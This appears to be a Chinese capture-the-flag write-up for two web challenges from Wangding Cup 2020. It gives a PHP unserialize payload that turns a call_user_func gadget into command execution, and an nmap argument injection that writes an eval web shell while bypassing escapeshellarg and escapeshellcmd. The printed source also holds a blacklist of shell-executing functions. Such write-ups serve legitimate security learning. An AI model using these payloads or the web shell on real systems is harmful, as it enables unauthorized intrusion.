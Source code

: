 # 网鼎杯 2020 朱雀组

## Web

### phpweb

查看源代码可以发现 form 表单存在注入点，默认执行函数为 `date(Y-m-d h:i:s a)` 。

```html
<form  id=form1 name=form1 action="index.php" method=post>
    <input type=hidden id=func name=func value='date'>
    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
</form>
```

尝试使用 `system()` 函数直接进行注入，构造 payload `func=system&p=cat /flag` 发现 `system()` 函数被过滤了。

<figure><img src=".gitbook/assets/phpweb-1.png" alt=""><figcaption></figcaption></figure>

尝试通过 `file_get_contents()` 函数获取 `index.php` 的内容查看被过滤关键字，构造 payload `func=file_get_contents&p=index.php` 可以得到。

<figure><img src=".gitbook/assets/phpweb-2.png" alt=""><figcaption></figcaption></figure>

```php
<?php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];
​
    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
?>
```

分析上述代码可以发现存在类 `Test` ，并且黑名单中并没有 `unserialize()` 函数，因此可以尝试通过反序列化来解决，先进行序列化的构造。

```php
<?php
    class Test {
        var $p = "ls /";
        var $func = "system";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
​
    $a = new Test();
    echo serialize($a);
    // O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}
```

构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:4:"ls /";s:4:"func";s:6:"system";}`

<figure><img src=".gitbook/assets/phpweb-3.png" alt=""><figcaption></figcaption></figure>

发现 `flag` 并没有如愿以偿地出现在根目录，因此通过 `find` 命令与上面同理构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:19:"find / -name *flag*";s:4:"func";s:6:"system";}` 。

<figure><img src=".gitbook/assets/phpweb-4.png" alt=""><figcaption></figcaption></figure>

排除开系统文件可以发现 `/tmp/flagoefiu4r93` 文件，通过构造 payload `func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}` 就得到 flag 了。

### Nmap

先随便输入 `127.0.0.1` 可以得到回显并且发现 Param `f=6f859` 。

构造 Payload 如下

```
f=6f858
```

可以得到报错回显如下

```
Warning: simplexml_load_file(): I/O warning : failed to load external entity "xml/6f858" in /var/www/html/result.php on line 23
```

可以推断出是 xml 输出的，假设当前表达式为

```php
<?php system('nmap '. $_POST['host'] .' -oX')
```

可以通过 `-oG` 输出到文件中，构造 Payload 如下

```
host=<?=eval($_POST[1]);?> -oG shell.php
```

回显 `Hacker...` ，说明存在一定的过滤，试试改成 `phtml` 。

构造 Payload 如下

```
host=<?=eval($_POST[1]);?> -oG shell.phtml
```

回显 `Host maybe down` ，说明传入成功，但是并不能访问 `shell.phtml` ，通过查看源代码才发现还需要进行单引号的绕过（存在 `escapeshellarg()` 和 `escapeshellcmd()` ），因此需要修改 Payload 如下

```
host='<?=eval($_POST[1]);?> -oG shell.phtml '
```

结尾的空格是为了防止 `escapeshellcmd()` 函数使得文件名变成 `shell.phtml\\` 。

通过蚁剑一把梭就可以得到 flag 了。
